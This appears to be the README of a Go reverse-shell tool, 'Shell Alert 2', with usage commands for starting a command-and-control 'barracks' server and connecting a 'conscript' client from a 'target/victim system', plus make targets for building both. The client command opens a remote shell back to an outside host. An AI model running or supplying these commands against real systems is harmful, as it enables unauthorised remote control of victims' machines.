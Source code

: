 # Shell Alert 2

Simple reverse shell client and server written in go.

Based of the work done by [adedayo](https://github.com/adedayo/reverse-shell).

## Usage

Start command and control server (barracks)

```bash
barracks 1337
```

Now connect from the target/victim system using the client (conscript), specifying the hostname/ip of the barracks, and port that the barracks is listening on (1337 in our example)
```bash
conscript <ip/hostname of barracks> <port of barracks>
```

## Build

Build C&C servers to `./bin/buildings` 

```
make buildings
```

Build clients to `./bin/units` 

```
make units
```

Build everything

```
make all
```


